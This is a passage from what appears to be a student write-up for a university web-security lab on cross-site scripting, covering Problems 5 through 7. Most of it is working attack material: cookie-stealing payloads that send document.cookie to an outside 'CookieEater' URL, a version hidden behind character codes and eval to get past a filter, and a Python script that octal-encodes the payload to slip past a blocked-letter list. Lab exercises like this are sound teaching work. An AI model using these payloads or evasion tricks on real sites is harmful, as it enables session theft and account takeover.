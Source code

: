 ```
";var img=new Image();img.src="https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie="%2Bdocument.cookie;"
```

Hence, the url to make the server go to is:

```
http://codered.cs.washington.edu/lab2/pmc/vikings.php?url=";var img=new Image();img.src="https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie="%2Bdocument.cookie;"
```

The authentication code is `authenticated=de607f28caabd2113dad11467f3d80258c7545ed`.

### Problem 6

Ok, in this problem, parenthesis and plus signs are not allowed again. In other words, this problem is merely a combination of problem 4 and 5.

Hence, the url should be:

```
http://codered.cs.washington.edu/lab2/pmc/volleyball.php?url=";var l=[118, 97, 114, 32, 105, 109, 103, 61, 110, 101, 119, 32, 73, 109, 97, 103, 101, 40, 41, 59, 105, 109, 103, 46, 115, 114, 99, 61, 39, 104, 116, 116, 112, 115, 58, 47, 47, 104, 111, 109, 101, 115, 46, 99, 115, 46, 119, 97, 115, 104, 105, 110, 103, 116, 111, 110, 46, 101, 100, 117, 47, 126, 122, 101, 116, 105, 97, 99, 47, 67, 111, 111, 107, 105, 101, 69, 97, 116, 101, 114, 46, 112, 104, 112, 63, 99, 111, 111, 107, 105, 101, 61, 39, 43, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 59];var s=String.fromCharCode.apply`${l}`;eval.apply`${[s]}`;"
```

The authentication code is: `authenticated=e594be92fbbf0fef75eb2a27ba9d38e96ce69b5e`.

### Problem 7

In this problem, letters `bcdfhijrstz` are replaced (case-insensitive).

The first idea that comes to my mind is that `eval` is still usable. Hence, we can create a string and let eval to execute that string.

Since hex numbers contains `bcdf`, we need to use oct numbers. Our payload is:

```
var a=new Image();a.src="http://students.washington.edu/zetiac/CSE484/CookieEater.php?cookie="+document.cookie;
```

Hence, we can write the following python code to convert the payload:

```python
command = 'var a=new Image();a.src="https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie="+document.cookie;'
blacklist = "bcdfhijrstz"
s = ""

for e in command:
    if e.lower() in blacklist:
        n = oct(ord(e))[2:]
        if len(n) == 2:
            n = "0" + n
        n = "\\" + n
    else:
        n = e
    s += n

s = s.replace("+","%2B")
print(s)
```
